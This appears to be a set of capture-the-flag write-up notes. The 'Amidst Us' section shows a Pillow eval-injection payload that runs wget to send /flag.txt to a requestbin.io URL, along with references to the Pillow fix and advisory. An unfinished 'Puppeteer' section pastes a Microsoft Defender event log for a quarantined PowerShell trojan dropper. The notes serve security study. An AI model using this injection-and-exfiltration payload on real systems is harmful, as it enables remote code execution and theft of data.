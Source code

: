## Amidst Us
![](Pasted%20image%2020220520121644.png)

https://requestbin.io/179ya4a1
```
exec("import os;os.system('wget https://requestbin.io/179ya4a1'+'?'+'result=$(cat /flag.txt)')")
```
![](Pasted%20image%2020220520123411.png)
### Reference
https://www.youtube.com/watch?v=0ViLZ03vcew
https://github.com/python-pillow/Pillow/pull/5923
https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901

# Not Complete

## Puppeteer
https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=TrojanDropper:PowerShell/Ploty.gen!D&ThreatID=2147766923
```xml
<EventData>
<Data Name="Product Name">Microsoft Defender Antivirus</Data>
<Data Name="Product Version">4.18.2104.10</Data>
<Data Name="Detection ID">{9C9B2265-B7EE-4521-A23E-6CB0D572ACA2}</Data>
<Data Name="Detection Time">2022-05-06T15:40:17.546Z</Data>
<Data Name="Unused"/>
<Data Name="Unused2"/>
<Data Name="Threat ID">2147728949</Data>
<Data Name="Threat Name">TrojanDropper:PowerShell/Ploty.gen!A</Data>
<Data Name="Severity ID">5</Data>
<Data Name="Severity Name">Severe</Data>
<Data Name="Category ID">37</Data>
<Data Name="Category Name">Trojan Dropper</Data>
<Data Name="FWLink">https://go.microsoft.com/fwlink/?linkid=37020&name=TrojanDropper:PowerShell/Ploty.gen!A&threatid=2147728949&enterprise=0</Data>
<Data Name="Status Code">3</Data>
<Data Name="Status Description"/>
<Data Name="State">2</Data>
<Data Name="Source ID">10</Data>
<Data Name="Source Name">AMSI</Data>
<Data Name="Process Name">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data>
<Data Name="Detection User">Council-HQ\Council Leader</Data>
<Data Name="Unused3"/>
<Data Name="Path">amsi:_C:\sysmgr\special_orders.ps1</Data>
<Data Name="Origin ID">0</Data>
<Data Name="Origin Name">Unknown</Data>
<Data Name="Execution ID">1</Data>
<Data Name="Execution Name">Suspended</Data>
<Data Name="Type ID">0</Data>
<Data Name="Type Name">Concrete</Data>
<Data Name="Pre Execution Status">3</Data>
<Data Name="Action ID">2</Data>
<Data Name="Action Name">Quarantine</Data>
<Data Name="Unused4"/>
<Data Name="Error Code">0x00000000</Data>
<Data Name="Error Description">The operation completed successfully. </Data>
<Data Name="Unused5"/>
<Data Name="Post Clean Status">0</Data>
<Data Name="Additional Actions ID">0</Data>
<Data Name="Additional Actions String">No additional actions required</Data>
<Data Name="Remediation User">NT AUTHORITY\SYSTEM</Data>
```